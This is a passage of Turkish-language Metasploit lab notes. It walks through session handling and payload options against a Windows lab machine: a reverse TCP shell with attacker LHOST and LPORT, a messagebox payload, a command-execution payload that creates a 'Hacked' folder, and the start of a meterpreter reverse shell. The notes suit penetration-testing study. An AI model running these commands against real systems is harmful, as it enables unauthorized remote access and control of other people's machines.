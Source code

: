 ~~> sessions (Oturumları listeler)

~~> sessions -i 1 (1. Oturumu açar)

\>> ctrl+c (session'u kapatır)

~~> exploit

\>> (Exploit makineye restart atmadan tekrar çalıştırılabildi. Bunun sebebi kullandığımız exploit ve payload'ın stabil olarak çalışıyor olması.)

- Sistemin exploit göndereceğimiz port'una erişiyor olabiliriz. Ancak başka bir port'a bağlanamayabiliriz. Bu durumda sistemi exploit etmiş oluruz ancak payload'dan yararlanamayız. MSF'nin sunduğu reverse shell seçeneği bu durum için bir çözüm sunar. Sistemin bize bağlantı kurma isteği yollamasını sağlar.

    **- Uygulama: (Aynı exploit üzerinden devam ediyoruz. Sadece payload'ı değiştirdik)**
    
      ~~> set PAYLOAD windows/shell/reverse_tcp
    
      ~~> show options
    
      ~~> set LHOST 172.16.193.151 (kendi IP adresimiz)
    
      ~~> set LPORT 443 (boşta olan herhangi bir port)
    
      ~~> show options
    
      ~~> exploit
    
      \>> ^C (ctrl+c abort session)

**- Farklı payload uygulamaları:**

  **- Messagebox payload'ı:**

    ~~> set PAYLOAD windows/messagebox/
    
    ~~> show options
    
    ~~> set ICON INFORMATION
    
    ~~> set TEXT POwned you
    
    ~~> set TITLE Hacker!
    
    ~~> show options
    
    ~~> exploit
    
  **- Execute payload'ı:**

    ~~> set PAYLOAD windows/exec/
    
    ~~> show options
    
    ~~> set CMD cmd.exe /c "mkdir c:\\Docume~1\\Administrator.Ambush\\Desktop\\Hacked"
    
    ~~> exploit
    
  **- Meterpreter/reverse_tcp payload'ı:**

    ~~> set PAYLOAD windows/meterpreter/reverse_tcp
    
    ~~> show options
    